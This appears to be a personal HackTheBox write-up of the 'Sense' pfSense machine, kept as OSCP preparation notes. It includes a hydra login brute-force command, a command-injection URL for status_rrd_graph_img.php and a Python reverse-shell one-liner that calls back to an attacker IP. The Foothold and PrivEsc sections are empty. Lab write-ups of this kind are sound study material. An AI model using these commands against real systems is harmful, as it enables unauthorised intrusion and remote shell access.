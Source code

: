 # Sense
Name: Sense
Date:  
Difficulty:  Easy
Goals:  OSCP Prep
Learnt: 
- When you get banned learn how to proxy!

## Recon
The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Sense/Screenshots/ping.png)

![lightpd](lighttpd-1-4-35.png)

Nmap found /tree

![tree](silverstripetreedirectory.png)

![links](treeoflinks.png)

![changelog](changelogDOTtxt.png)

Blocked out non multiples of less than 3
![sense](oneofthreevulns.png)
2.2 - 2.4

Research `pfsense_ng`
[Documentation: Feature list 2.0](https://docs.netgate.com/pfsense/en/latest/releases/2-0-0.html)
FreeBSD!

Basically tried some of the exploits
I missed the system-users.txt file, because I did not proxy after being banned. Checked the video, after one of the exploits required authenication and I tried the others..

![sad](sadban.png)

Tried:
```bash
hydra -l Rohit -P /usr/share/wordlists/rockyou.txt -f 10.129.63.73 http-post-form '/index.php:__csrf_magic=sid%3A9b9199df3b86ab6e2c7871980c946b040c5ac939%2C1662233351&usernamefld=^USER^&passwordfld=^PASS^&login=Login:F=incorrect'
```
Then tried pfsense as password with rohit, not Rohit.

## Exploit

Secondly I changed the exploit to handle string concatenation properly in 3.10 python:

```python
login_url = f"https://{rhost}/index.php"
exploit_url = f"https://{rhost}/status_rrd_graph_img.php?database=queues;printf\'{payload}\'|sh"
```

This also did not work, 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Foothold

## PrivEsc

      

